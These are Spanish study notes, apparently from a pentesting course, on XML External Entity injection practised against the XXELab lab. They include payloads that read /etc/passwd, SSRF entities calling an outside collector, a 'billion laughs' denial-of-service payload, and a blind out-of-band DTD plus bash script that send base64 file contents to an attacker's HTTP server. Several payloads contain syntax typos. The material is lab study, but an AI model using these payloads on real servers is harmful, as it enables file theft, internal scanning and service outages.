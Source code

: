 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de GitHub correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

![| 00x300](Pasted%20image%2020230420205723.png)
![00x300](Pasted%20image%2020230420205849.png)
![00x200](Pasted%20image%2020230420210056.png)
![00x200](Pasted%20image%2020230420210113.png)  ![00x200](Pasted%20image%2020230420210246.png)
![00x350](Pasted%20image%2020230420211907.png)
![00x280](Pasted%20image%2020230420212052.png)
También podemos explotar
![00x400](Pasted%20image%2020230421134216.png)

## XML en la web

* Usaremos XML como código para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myName "omar">]>                                                        <!-- Colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "file:///etc/passwd">]>                                    <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "http://192.168.68.108/testXXE">]>            <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				&myFile;                                                              <!-- Llamamos a la entidad desde aqui -->
			</email>
		</name>
	</root>
```

```xml 
<!-- Un millon de risas -->

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ELEMENT example ANY >
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  ]>
<example>
  &lol9;
</example>
```

```xml 
<!-- XXE -- SSRF -->

<!DOCTYPE xxe [ 
  <!ENTITY juju SYSTEM "http://9lvskwimvjek0wq5s8up8ja0grmia8yx.oastify.com?nombre=omar"> 
]>
```

## **XXE OOB Blind**
Cuando no se puede llamar la entidad desde el campo seleccionado en la estructura, lo llamamos desde el DOCTYPE colocando el porcentaje al inicio y final con el nombre. El archivo debe de tener la extensión **.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>       <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				test@test.com                                                              <!-- Aveces no podemos llamar la entidad desde aqui -->
			</email>
		</name>
	</root>
```

* Así es como haríamos un archivo .dtd externo
```bash
❯ nvim malicious.dtd                        # Creamos el archivo malicioso
```

* Haremos que el output en base64 me lo envié a mi maquina de atacante como una petición por GET. Esto dentro del archivo  malicious.dtd
```xml
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;' >">                  <!-- Debemos de colocar el % en HEX = 25 --> 
%eval;                                                                                                   <!-- Debemos de llamar a las entidades --> 
%exfil; 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


Con este automatizas el proceso y puedes solicitar el archivo que quieras.
```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 
```

```bash
#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename

maliciuos_dtd="""
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=$myFilename">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;'>">                  
%eval;                                                                                                    
%exfil; """

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>      
<root><name><email>test@test.com</email></name></root>' &>/dev/null

cat response  | grep -oP "/?file=\K[^.*]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null

```